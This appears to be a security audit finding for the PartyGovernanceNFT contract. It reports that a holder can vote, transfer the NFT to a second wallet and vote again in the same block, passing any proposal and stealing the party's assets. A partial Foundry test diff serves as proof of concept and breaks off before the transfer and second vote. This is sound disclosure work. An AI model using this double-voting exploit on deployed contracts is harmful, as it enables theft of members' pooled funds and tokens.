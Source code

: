 `PartyGovernanceNFT` uses the voting power at the time of proposal when calling `accept`. The problem with that is that a user can vote, transfer the NFT (and the voting power) to a different wallet, and then vote from this second wallet again during the same block that the proposal was created.
This can also be repeated multiple times to get an arbitrarily high voting power and pass every proposal unanimously.

The consequences of this are very severe. Any user (no matter how small his voting power is) can propose and pass arbitrary proposals animously and therefore steal all assets (including the precious tokens) out of the party.

### Proof Of Concept

This diff shows how a user with a voting power of 50/100 gets a voting power of 100/100 by transferring the NFT to a second wallet that he owns and voting from that one:

```diff
--- a/sol-tests/party/PartyGovernanceUnit.t.sol
+++ b/sol-tests/party/PartyGovernanceUnit.t.sol
@@ -762,6 +762,7 @@ contract PartyGovernanceUnitTest is Test, TestUtils {
         TestablePartyGovernance gov =
             _createGovernance(100e18, preciousTokens, preciousTokenIds);
         address undelegatedVoter = _randomAddress();
+        address recipient = _randomAddress();
         // undelegatedVoter has 50/100 intrinsic VP (delegated to no one/self)
         gov.rawAdjustVotingPower(undelegatedVoter, 50e18, address(0));
 
@@ -772,38 +773,13 @@ contract PartyGovernanceUnitTest is Test, TestUtils {
         // Undelegated voter submits proposal.
         vm.prank(undelegatedVoter);
         assertEq(gov.propose(proposal, 0), proposalId);
-
-        // Try to execute proposal (fail).
-        vm.expectRevert(abi.encodeWithSelector(
-            PartyGovernance.BadProposalStatusError.selector,
-            PartyGovernance.ProposalStatus.Voting
-        ));
-        vm.prank(undelegatedVoter);
-        gov.execute(
-            proposalId,
-            proposal,
-            preciousTokens,
-            preciousTokenIds,
-            "",
-            ""
-        );
-
-        // Skip past execution delay.
-        skip(defaultGovernanceOpts.executionDelay);
-        // Try again (fail).
-        vm.expectRevert(abi.encodeWithSelector(
-            PartyGovernance.BadProposalStatusError.selector,
-            PartyGovernance.ProposalStatus.Voting
-        ));
-        vm.prank(undelegatedVoter);
-        gov.execute(
-            proposalId,
-            proposal,
-            preciousTokens,
-            preciousTokenIds,
-            "",
-            ""
-        );
+        (, PartyGovernance.ProposalStateValues memory valuesPrev) = gov.getProposalStateInfo(proposalId);
+        assertEq(valuesPrev.votes, 50e18);
```